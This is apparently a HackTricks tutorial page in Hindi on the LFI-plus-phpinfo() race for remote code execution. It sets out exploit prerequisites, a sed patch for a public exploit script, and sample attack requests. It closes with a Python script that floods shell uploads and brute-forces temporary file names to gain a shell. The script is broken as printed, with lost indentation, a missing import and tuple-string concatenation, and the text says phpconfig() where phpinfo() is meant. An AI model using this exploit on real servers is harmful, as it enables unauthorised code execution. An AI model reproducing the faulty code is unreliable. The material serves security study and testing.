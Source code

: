 {{#include ../../banners/hacktricks-training.md}}

इस कमजोरियों का लाभ उठाने के लिए आपको आवश्यकता है: **एक LFI कमजोरी, एक पृष्ठ जहाँ phpinfo() प्रदर्शित होता है, "file_uploads = on" और सर्वर को "/tmp" निर्देशिका में लिखने में सक्षम होना चाहिए।**

[https://www.insomniasec.com/downloads/publications/phpinfolfi.py](https://www.insomniasec.com/downloads/publications/phpinfolfi.py)

**ट्यूटोरियल HTB**: [https://www.youtube.com/watch?v=rs4zEwONzzk\&t=600s](https://www.youtube.com/watch?v=rs4zEwONzzk&t=600s)

आपको एक्सप्लॉइट को ठीक करने की आवश्यकता है ( **=>** को **=>** में बदलें)। ऐसा करने के लिए आप कर सकते हैं:
```
sed -i 's/\[tmp_name\] \=>/\[tmp_name\] =\&gt/g' phpinfolfi.py
```
आपको **payload** को भी बदलना होगा जो हमले की शुरुआत में है (उदाहरण के लिए, php-rev-shell के लिए), **REQ1** (यह phpinfo पृष्ठ की ओर इशारा करना चाहिए और इसमें padding शामिल होनी चाहिए, यानी: _REQ1="""POST /install.php?mode=phpinfo\&a="""+padding+""" HTTP/1.1_), और **LFIREQ** (यह LFI भेद्यता की ओर इशारा करना चाहिए, यानी: _LFIREQ="""GET /info?page=%s%%00 HTTP/1.1\r --_ जब null char का शोषण करते समय डबल "%" की जांच करें)

{{#file}}
LFI-With-PHPInfo-Assistance.pdf
{{#endfile}}

### सिद्धांत

यदि PHP में अपलोड की अनुमति है और आप एक फ़ाइल अपलोड करने की कोशिश करते हैं, तो यह फ़ाइल एक अस्थायी निर्देशिका में संग्रहीत होती है जब तक कि सर्वर अनुरोध को संसाधित नहीं कर लेता, फिर यह अस्थायी फ़ाइल हटा दी जाती है।

फिर, यदि आपने वेब सर्वर में LFI भेद्यता पाई है, तो आप अस्थायी फ़ाइल के नाम का अनुमान लगाने की कोशिश कर सकते हैं और इसे RCE का शोषण करते हुए अस्थायी फ़ाइल तक पहुँच सकते हैं इससे पहले कि इसे हटा दिया जाए।

**Windows** में फ़ाइलें आमतौर पर **C:\Windows\temp\php** में संग्रहीत होती हैं।

**Linux** में फ़ाइल का नाम आमतौर पर **random** होता है और यह **/tmp** में स्थित होता है। चूंकि नाम यादृच्छिक है, इसलिए **कहीं से अस्थायी फ़ाइल का नाम निकालना आवश्यक है** और इसे हटाए जाने से पहले एक्सेस करना आवश्यक है। यह **phpconfig()** फ़ंक्शन की सामग्री के भीतर **variable $\_FILES** के मान को पढ़कर किया जा सकता है।

**phpinfo()**

**PHP** एक **4096B** का बफर उपयोग करता है और जब यह **पूर्ण** होता है, तो इसे **क्लाइंट को भेजा जाता है**। फिर क्लाइंट **बहुत सारे बड़े अनुरोध भेज सकता है** (बड़े हेडर का उपयोग करते हुए) **php** रिवर्स **शेल** अपलोड करते हुए, **phpinfo() के पहले भाग के लौटने का इंतजार करें** (जहां अस्थायी फ़ाइल का नाम है) और LFI भेद्यता का शोषण करते हुए php सर्वर फ़ाइल को हटाने से पहले **अस्थायी फ़ाइल तक पहुँचने की कोशिश करें**।

**नाम को ब्रूटफोर्स करने के लिए Python स्क्रिप्ट (यदि लंबाई = 6)**
```python
import itertools
import requests
import sys

print('[+] Trying to win the race')
f = {'file': open('shell.php', 'rb')}
for _ in range(4096 * 4096):
requests.post('http://target.com/index.php?c=index.php', f)


print('[+] Bruteforcing the inclusion')
for fname in itertools.combinations(string.ascii_letters + string.digits, 6):
url = 'http://target.com/index.php?c=/tmp/php' + fname
r = requests.get(url)
if 'load average' in r.text:  # <?php echo system('uptime');
print('[+] We have got a shell: ' + url)
sys.exit(0)

print('[x] Something went wrong, please try again')
```
{{#include ../../banners/hacktricks-training.md}}
